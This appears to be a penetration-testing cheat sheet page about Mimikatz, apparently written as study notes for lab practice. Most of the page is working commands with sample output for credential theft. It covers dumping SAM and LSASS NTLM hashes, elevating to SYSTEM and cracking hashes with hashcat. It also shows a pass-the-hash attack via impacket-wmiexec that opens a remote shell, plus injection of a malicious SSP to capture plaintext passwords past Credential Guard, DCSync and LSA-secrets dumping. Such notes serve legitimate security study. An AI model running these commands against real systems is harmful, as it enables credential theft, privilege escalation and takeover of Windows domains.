 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Mimikatz

> _Each command in `mimikatz` consists of a module and a command delimited by two colons (`module::command`)._&#x20;

## SAM

**NTML** stores unsalted hashed passwords in **SAM** database (`c:\windows\system32\config\sam`) which cannot be copied while the Windows OS is running.  **Local Security Authority System (LSASS)** runs with `SYSTEM` privileges and caches NTLM hashes.

1. We can extract the NTML hashes if we have `Administrator` / `SYSTEM` privileges and the `SeDebugPrivilege` access right enabled. We can enable the latter with `privilege::debug`.
2. We can use `token::elevate` module to elevate our privileges to `SYSTEM` if we have the `SeImpersonatePrivilege` access right. All local `administrators` have it by default.

{% tabs %}
{% tab title="1. SeDebugPrivilege" %}
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
{% endtab %}

{% tab title="2. PrivEsc" %}
{% code overflow="wrap" %}
```powershell
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

660     {0;000003e7} 1 D 41815          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;001035c2} 2 F 1710035     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1981690     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
{% endcode %}
{% endtab %}

{% tab title="3. Dump SAM" %}
```powershell
mimikatz # lsadump::sam
<SNIP>

RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10

<SNIP>
```
{% endtab %}

{% tab title="4. Crack" %}
{% code overflow="wrap" %}
```bash
hashcat -m1000 nelly_ntml /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Kerberos Tickets

```powershell
# Extract TGTs and TGSs
mimikatz # sekurlsa::tickets
```

## Pass-the-Hash

Unlike local account hashes which are stored in SAM, **domain hashes** are stored in memory of the Local Security Authority Subsystem Service process (`lsass.exe`).

{% tabs %}
{% tab title="1. SeDebugPrivilege" %}
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
{% endtab %}

{% tab title="2. LSASS" %}
```powershell
mimikatz # sekurlsa::logonpasswords
<SNIP>

Authentication Id : 0 ; 5468350 (00000000:005370be)
Session           : RemoteInteractive from 5
User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
Logon Time        : 9/19/2024 2:08:28 AM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : 160c0b16dd0ee77e7c494e38252f7ddf
<SNIP>
```
{% endtab %}

{% tab title="3. PtH" %}
{% code overflow="wrap" %}
```bash
# with the domain's admin hash, we can perform a PtH attack.
$ impacket-wmiexec -debug -hashes :160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] SMBv3.0 dialect used
[+] Target system is 192.168.50.248 and isFQDN is False
[+] StringBinding: SERVERWK248[64285]
[+] StringBinding: 192.168.50.248[64285]
[+] StringBinding chosen: ncacn_ip_tcp:192.168.50.248[64285]
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## SSP Injection

Credential Guard uses Virtualization-Based Security (VBS) to protect credentials by isolating them in a secure environment. VBS creates protected memory regions that the OS cannot access, enforced by Virtual Trust Levels (VTLs). VTL0 hosts the regular Windows environment, while VTL1 runs critical security functions.&#x20;

When enabled, **Credential Guard** **moves credential storage from LSASS to an isolated process (`LSAISO.exe`) in VTL1, communicating with LSASS in VTL0**. This prevents tools like Mimikatz, operating in VTL0, from accessing credential data. Introduced in Windows 10 and Server 2016, it is now enabled by default on modern Windows installations, though older systems may have it disabled.

> _**Credential Guard is only designed to protect non-local users**. This means that we are still able to obtain NTLM hashes for the local users on the target machine._

If we repeat the above PtH attack, and Credential Guard is enabled, we won't be able to get the domain's `Administrator` hash. While we know the `Administrator` user of the `CORP.COM` domain has logged into this box, we can't obtain the cached hashes because **the** `LSASS` **process only has access to this information after it has been encrypted by the** `LSAISO` **process**.

{% code overflow="wrap" %}
```powershell
mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 4214404 (00000000:00404e84)
Session           : RemoteInteractive from 4
User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
Logon Time        : 9/19/2024 4:39:07 AM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
           * LSA Isolated Data: NtlmHash
             KdfContext: 7862d5bf49e0d0acee2bfb233e6e5ca6456cd38d5bbd5cc04588fbd24010dd54
             Tag       : 04fe7ed60e46f7cc13c6c5951eb8db91
             AuthData  : 0100000000000000000000000000000001000000340000004e746c6d48617368
             Encrypted : 6ad536994213cea0d0b4ff783b8eeb51e5a156e058a36e9dfa8811396e15555d40546e8e1941cbfc32e8905ff705181214f8ec5c
```
{% endcode %}

To bypass Credential Guard, attackers **intercept credentials during login instead of retrieving cached ones**. Windows authentication uses the Security Support Provider Interface (SSPI) with providers like Kerberos and NTLM. By registering a malicious SSP via the registry or injecting it into LSASS, attackers can capture plaintext credentials as they pass through SSPI. Mimikatz’s `memssp` module automates this by injecting an SSP into LSASS memory, capturing credentials without writing files to disk.

```powershell
mimikatz # misc::memssp
Injected =)
```

At this point, when another user remotely connects to the machine their credentials will be captured.

```powershell
> type C:\Windows\System32\mimilsa.log
<SNIP>
[00000000:0066608e] CORP\Administrator  QWERTY123!@#
<SNIP>
```

## Other

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
# Using the binary
.\mimikatz.exe privilege::debug token::elevate lsadump::secrets exit 
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="mimikatz.exe" %}
{% embed url="https://github.com/gentilkiwi/mimikatz/" %}
{% endtab %}

{% tab title="Invoke-Mimikatz.ps1" %}
{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
{% endtab %}

{% tab title="Guide" %}
{% embed url="https://adsecurity.org/?page_id=1821" %}
{% endtab %}
{% endtabs %}
